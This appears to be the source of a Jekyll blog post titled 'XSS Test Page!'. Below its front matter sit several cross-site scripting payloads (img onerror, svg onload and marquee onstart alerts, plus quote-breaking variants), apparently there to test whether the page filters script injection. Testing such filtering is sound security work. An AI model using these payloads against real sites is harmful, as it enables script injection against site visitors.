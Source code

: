 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(document.domain)// </b> 
“><svg/onload=alert(document.domain)>”@x.y
<marquee onstart=alert(1)>
'>"><svg/onload=alert()>
